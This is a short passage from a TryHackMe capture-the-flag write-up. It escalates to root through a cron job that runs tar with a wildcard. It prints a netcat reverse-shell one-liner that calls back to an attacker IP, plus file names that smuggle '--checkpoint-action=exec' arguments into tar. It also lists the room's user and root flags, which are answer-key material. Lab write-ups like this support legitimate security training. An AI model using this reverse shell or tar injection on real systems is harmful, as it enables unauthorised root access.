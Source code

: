 ```html

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

server-management@vulnnet:~$
```

```html
server-management@vulnnet:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
server-management@vulnnet:~$ cat user.txt
THM{907e420d979d8e2992f3d7e16bee1e8b}
```

### Now, time to escalate our privilege to root to get root flag via `cronjob!`

[GTFBins](https://gtfobins.github.io/gtfobins/tar/)

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.29.75 4444 >/tmp/f" > /home/server-management/Documents/rev.sh`
- `touch "/home/server-management/Documents/--checkpoint=1"`
- `touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"`

```html
nc -nlvp 4444
listening on [any] 4444 ...
# cat /root/root.txt
THM{220b671dd8adc301b34c2738ee8295ba}
```

# Flags:

- user.txt
    - THM{907e420d979d8e2992f3d7e16bee1e8b}
- root.txt
    - THM{220b671dd8adc301b34c2738ee8295ba}

---

## Improved skills

- cronjob
- prv esc

## Used tools
